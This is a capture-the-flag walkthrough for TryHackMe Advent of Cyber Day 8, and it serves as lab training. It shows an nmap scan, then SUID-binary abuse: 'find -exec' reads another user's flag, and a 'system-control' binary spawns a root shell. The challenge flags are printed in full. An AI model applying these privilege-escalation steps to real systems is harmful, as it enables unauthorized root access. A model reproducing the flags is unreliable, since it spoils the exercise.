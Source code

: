 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 8
### References
* MuirlandOracle. (2020, January 6). MuirlandOracle. MuirlandOracle’s Blog. https://muirlandoracle.co.uk/2020/01/06/tryhackme-christmas-2019-challenge-write-up/
## What port is SSH running on?
```bash
$ nmap -sV -p 10000- 10.10.234.200
PORT      STATE SERVICE REASON  VERSION
65534/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```
**Answer**: `65534`
## Find and run a file as `igor`. Read the file `/home/igor/flag1.txt`.
```bash
$ ssh holly@10.10.234.200 -p 65534
holly@ip-10-10-234-200:~$ ls -l /usr/bin/find
-rwsr-xr-x 1 igor igor 221768 Feb  7  2016 /usr/bin/find
holly@ip-10-10-234-200:~$ find /home/igor/flag1.txt -exec cat /home/igor/flag1.txt \;
THM{d3f0708bdd9accda7f937d013eaf2cd8}
```
**Flag 1**: `THM{d3f0708bdd9accda7f937d013eaf2cd8}`
## Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the `/root/flag2.txt` file?
1. Find SUID binaries:
```bash
holly@ip-10-10-234-200:~$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>>/dev/null | grep "/bin"
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 27608 Aug 23  2019 /bin/umount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40152 Aug 23  2019 /bin/mount
-rwsr-xr-x 1 root root 40152 May 15  2019 /snap/core/7396/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/7396/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/7396/bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 25  2019 /snap/core/7396/bin/su
-rwsr-xr-x 1 root root 27608 May 15  2019 /snap/core/7396/bin/umount
-rwsr-xr-x 1 root root 71824 Mar 25  2019 /snap/core/7396/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 Mar 25  2019 /snap/core/7396/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 Mar 25  2019 /snap/core/7396/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 Mar 25  2019 /snap/core/7396/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 Mar 25  2019 /snap/core/7396/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jun 10  2019 /snap/core/7396/usr/bin/sudo
-rwsrwxr-x 1 root root 8880 Dec  7  2019 /usr/bin/system-control
-rwsr-xr-x 1 root root 32944 Mar 26  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 54256 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 39904 Mar 26  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 136808 Jun 10  2019 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 71824 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 23376 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 75304 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 32944 Mar 26  2019 /usr/bin/newgidmap
```
2. Use `system-control` to gain root access from a `bash` shell:
```bash
holly@ip-10-10-234-200:~$ system-control

===== System Control Binary =====

Enter system command: /bin/bash
root@ip-10-10-234-200:~# cat /root/flag2.txt
THM{8c8211826239d849fa8d6df03749c3a2}
```

**Flag 2**: `THM{8c8211826239d849fa8d6df03749c3a2}`